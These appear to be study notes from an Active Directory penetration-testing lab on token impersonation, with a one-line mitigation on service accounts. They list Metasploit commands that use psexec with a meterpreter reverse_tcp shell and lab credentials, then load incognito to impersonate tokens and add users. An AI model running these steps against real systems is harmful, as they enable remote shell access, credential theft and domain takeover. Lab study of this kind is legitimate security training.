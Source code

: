 ##### Mitigation
The Service account should not be running -->  as domain admin

#### Token Impersonation
<span style="color:#00b050">Tokens</span> = <span style="color:#00b050">temporary keys</span> that allow you to acces to a system/network <span style="color:#00b050">without </span>having to <span style="color:#00b050">provide</span>
         <span style="color:#00b050">credentials</span> each time you access

2 types:
- <span style="color:#00b050">delegate</span> -->  created for logging into a machine 
- <span style="color:#00b050">impersonate</span> -->  non interactive 

why tokens are bad:
with metasploit we can do -->  <span style="color:#00b050">token impersonation</span> 
							we can:
							- list the available tokens
							- impersonate the user that has this token
##### Attack
We need to turn on THEPUNISHER and the Domain Controller
there are a lot of tools for impersonation -->       - metasploit
                                         - mimikatz 
<span style="background:#fff88f">here we'll use metasploit</span>
`msfconsole`
`search psexec`
`use exploit/windows/smb/psexec`
`options`
`set paylaod windows/x64/meterpreter/reverse_tcp`
`set rhosts 172.16.214.130`       THEPUNISHER_IP
`set smbuser fcastle`
`set smbpass Password1`
`set smbdomain MARVEL.local`
`run`

###### incognito
#AD_tool
`load incognito`
> [!info] Load an extension
> once you have a shell for example:
 >`load incognito`
> `options`              (to see all the extension commands) 
> 
> For example with incognito we can:
> - list all the tokens
> - impersonate a token
> - add a user

from THEPUNISHER machine:
logout and login as -->  `MARVEL\administrator`  (`P@$$w0rd!`)
=>
in this way we have created -->  a <span style="color:#00b050">delegate token</span>
=>
